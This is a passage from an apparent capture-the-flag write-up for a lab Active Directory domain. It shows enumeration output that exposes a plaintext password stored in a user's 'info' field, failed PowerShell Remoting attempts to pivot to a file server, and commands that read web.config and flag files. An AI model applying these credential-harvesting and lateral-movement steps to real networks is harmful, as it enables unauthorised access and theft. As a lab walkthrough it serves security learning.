 Doing so gives us the following output...
```
Name                           Value
----                           -----
logoncount                     {18}
codepage                       {0}
objectcategory                 {CN=Person,CN=Schema,CN=Configuration,DC=fulcrum,DC=local}
description                    {Has logon rights to the file server}
usnchanged                     {143447}
instancetype                   {4}
name                           {Bobby Tables}
badpasswordtime                {131522885566857829}
pwdlastset                     {131514417841217344}
objectclass                    {top, person, organizationalPerson, user}
badpwdcount                    {0}
samaccounttype                 {805306368}
lastlogontimestamp             {131556801131693417}
usncreated                     {12878}
objectguid                     {88 53 29 79 114 147 100 75 187 41 125 239 148 113 13 111}
info                           {Password set to ++FileServerLogon12345++}
whencreated                    {10/2/2017 6:06:57 PM}
adspath                        {LDAP://dc.fulcrum.local:389/CN=Bobby Tables,OU=People,DC=fulcrum,DC=local}
useraccountcontrol             {66048}
cn                             {Bobby Tables}
countrycode                    {0}
primarygroupid                 {513}
whenchanged                    {11/20/2017 7:35:13 PM}
dscorepropagationdata          {10/2/2017 6:09:28 PM, 10/2/2017 6:06:57 PM, 1/1/1601 12:00:00 AM}
lastlogon                      {131556801131693417}
distinguishedname              {CN=Bobby Tables,OU=People,DC=fulcrum,DC=local}
samaccountname                 {BTables}
objectsid                      {1 5 0 0 0 0 0 5 21 0 0 0 70 111 187 188 76 255 138 170 168 71 215 161 80 4 0 0}
lastlogoff                     {0}
displayname                    {Bobby Tables}
accountexpires                 {9223372036854775807}
userprincipalname              {BTables@fulcrum.local}

```

It seems that we might we have might discovered Bobby Tables credentials, and from the "description" he _should_ have logon rights to the file server (file.fulcrum.local). 

#### Pivoting to file.fulcrum.local with Nishang

Trying to enter another Powershell Remoting sessions gives us an error stating we can't do multi-hop PSRemoting Sessions.  We also don't have permissions to enable multi-session PSRemoting unfortunately because we aren't administrators.

```

[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
Enter-PSSession : You are currently in a Windows PowerShell PSSession and cannot use the Enter-PSSession cmdlet to enter another PSSession.
    + CategoryInfo          : InvalidArgument: (:) [Enter-PSSession], ArgumentException
    + FullyQualifiedErrorId : RemoteHostDoesNotSupportPushRunspace,Microsoft.PowerShell.Commands.EnterPSSessionCommand

[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke
Access is denied. You need to run this cmdlet from an elevated process.
    + CategoryInfo          : NotSpecified: (:) [Enable-WSManCredSSP], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.WSMan.Management.EnableWSManCredSSPCommand
```

[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>